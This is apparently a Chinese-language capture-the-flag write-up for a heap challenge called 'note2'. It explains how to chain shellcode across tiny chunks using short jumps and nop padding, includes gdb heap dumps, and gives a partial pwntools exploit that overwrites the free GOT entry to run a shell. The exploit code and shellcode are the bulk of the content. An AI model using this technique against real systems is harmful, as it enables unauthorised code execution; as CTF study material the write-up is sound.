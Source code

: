 修改如下

```
#xor rsi,rsi
#nop
#nop
#jmp 0x19
#push 0x3b
#pop rax
#nop
#nop
#jmp 0x19
```

想了很久的地方在机器码的得到。。最后直接拿IDA随便找个程序用keypatch看他的encode值就好了。pathc的太少了一开始么想起来笑死



这里为什么选择xor赋值是因为他的占用字节非常小

mov的话一个就要7个字节了

这里还要个坑点就是shellcode的拼接要用跳转来实现，本地打了好久一直卡在这个点，因为这两个点，最后都在做这题。。。差点还没赶上



关于跳转多少的计算，我们可以看下gdb

因为大小限制的非常恶心，一次写8个，但是又要用到跳转

一个jmp要2个字节，剩下6个字节拆分上面的指令来填写，不足的用NOP补齐

```c
pwndbg> x/32gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021
0x555555757010:	0x0000000000000031	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021
0x555555757030:	0x0000000000000032	0x0000000000000000

```

那么如此计算得到

fd位写入shellcode，5个字节的位置给shellcode，2个给JMP，剩下给nop补齐

从上一部分的fd到下一部分的fd距离刚好是0x19

## exp

```python
from pwn import *
context(arch = 'amd64')
r=process('./note2')
elf=ELF('./note2')
r = remote('192.168.40.10','21049')
def add(idx,content):
    r.recvuntil('your choice>>')
    r.sendline('1')
    r.recvuntil('index')
    r.sendline(str(idx))
    r.recvuntil('size')
    r.sendline(str(8))    
    r.recvuntil('content')
    r.send(content)


add(0,'/bin/sh')
add((elf.got['free']-0x2020A0)/8,asm('xor rsi,rsi')+'\x90\x90\xeb\x19')#modify the free_got to shellchunk2 whe our shell code build it out,this process will be like this free_got->system('/bin/sh')

add(1,asm('push 0x3b\n pop rax')+'\x90\x90\xeb\x19')

```